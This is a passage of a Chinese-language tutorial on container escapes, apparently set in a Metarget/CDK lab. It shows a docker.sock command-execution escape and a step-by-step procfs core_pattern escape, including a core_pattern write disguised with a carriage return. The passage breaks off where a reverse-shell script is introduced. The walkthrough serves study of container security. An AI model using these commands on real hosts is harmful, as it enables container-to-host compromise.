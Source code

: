 命令执行（逃逸）：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```bash<br>./cdk run docker-sock-pwn <sock_path> <shell_cmd><br>./cdk run docker-sock-pwn /var/run/docker.sock "touch /host/tmp/pwn-success"<br>``` |

#### [](#322-%E6%8C%82%E8%BD%BD%E4%B8%BB%E6%9C%BA-procfs-%E7%9A%84%E6%83%85%E5%86%B5)3.2.2 挂载主机 procfs 的情况

procfs 是一个伪文件系统，它动态反映着系统内进程及其他组件的状态，其中有许多十分敏感重要的文件。因此，将宿主机的 procfs 挂载到不受控的容器中也是十分危险的，尤其是在该容器内默认启用 root 权限，且没有开启 User Namespace 时。

一般来说，我们不会将宿主机的procfs挂载到容器中。然而，有些业务为了实现某些特殊需要，还是会将该文件系统挂载进来。

procfs 中的 `/proc/sys/kernel/core_pattern` 负责配置进程崩溃时内存转储数据的导出方式。从手册中能获得关于内存转储的详细信息，关键信息如下：

> 从 2.6.19 内核版本开始，Linux 支持在`/proc/sys/kernel/core_pattern`中使用新语法。如果该文件中的首个字符是管道符`|`，那么该行的剩余内容将被当作用户空间程序或脚本解释并执行。

因此，可以利用上述机制，在挂载了宿主机 procfs 的容器内实现逃逸。

环境搭建：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```bash<br>./metarget gadget install docker --version 18.03.1<br>./metarget gadget install k8s --version 1.16.5 --domestic<br>./metarget cnv install mount-host-procfs<br>``` |

执行完成后，K8s 集群内 `metarget` 命令空间下将会创建一个名为 `mount-host-procfs` 的 pod。

宿主机的 procfs 在容器内部的挂载路径是 `/host-proc`。

复现：

执行以下命令进入容器：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>kubectl exec -it -n metarget mount-host-procfs /bin/bash<br>``` |

在容器中，首先拿到当前容器在宿主机上的绝对路径：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>cat /proc/mounts \| grep docker<br>``` |

从 `workdir` 可以得到基础路径，结合背景知识可知当前容器在宿主机上的 `merged` 目录绝对路径如下：

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202111121630395.png-water_print](assets/1699410413-0e223b0c858e78a37569206e483f0af7 "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202111121630395.png-water_print")

向容器内 `/host-proc/sys/kernel/core_pattern` 内写入以下内容：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>echo -e "\|/var/lib/docker/overlay2/c7c07b405792a4da3db07f22ae42a35ad00c8946362f0ebe7687bea79785add8/merged/tmp/.x.py \rcore           " > /host-proc/sys/kernel/core_pattern<br>``` |

然后在容器内创建一个反弹 shell 的 `/tmp/.x.py`：
